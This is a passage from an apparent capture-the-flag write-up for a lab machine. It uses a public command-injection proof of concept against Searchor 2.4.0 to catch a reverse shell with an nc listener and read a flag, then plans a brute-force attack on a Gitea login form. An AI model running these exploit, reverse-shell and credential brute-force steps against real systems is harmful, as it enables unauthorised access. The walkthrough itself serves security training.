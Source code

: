 Try RCE PoC for `Searchor 2.4.0`:

>[Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection](https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection)

```bash
# start a listener
$ nc -lvnp 9001
listening on [any] 9001 ...
```

```bash
# run the PoC
$ bash exploit.sh searcher.htb 10.10.14.12
---[Reverse Shell Exploit for Searchor <= 2.4.2 (2.4.0)]---
[*] Input target is searcher.htb
[*] Input attacker is 10.10.14.12:9001
[*] Run the Reverse Shell... Press Ctrl+C after successful connection
```

```bash
# catch the reverse shell
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.208] 37578
bash: cannot set terminal process group (1658): Inappropriate ioctl for device
bash: no job control in this shell
svc@busqueda:~$ cat ~/user.txt
cat ~/user.txt
<SNIP>
```

Search known vulns for `Gitea 1.18.0` gives us nothing back. 

Let's try to perform a brute force attack (BFA) against the login form. In order to perform our BFA we need to obtain the required information: 
1. Does it use **Basic Authentication** or is it a **login form**?
	- In our case it is a login form.
2. Is it a `GET` or a `POST` login form?
	- If it passes parameters within the URL address bar, it is a `GET`, otherwise it is a `POST`.
3. What are the parameters?
	- We can find them using burp, zap, or just brower's tools.
4. What is unique on the page during a failed login attempt?
	- We can find this by looking the page source code after a failed login attempt.


When we attempt to login with random creds, no parameters are added to the URL address bar, such as `username` and `password`, which indicates that this is a `POST` login form:

	![](testLogin.png)

The fail login message is `Username or password is incorrect.`:

	![](errorMsg.png){: .normal}

The `POST` request parameters are `user_name` and `password`: 
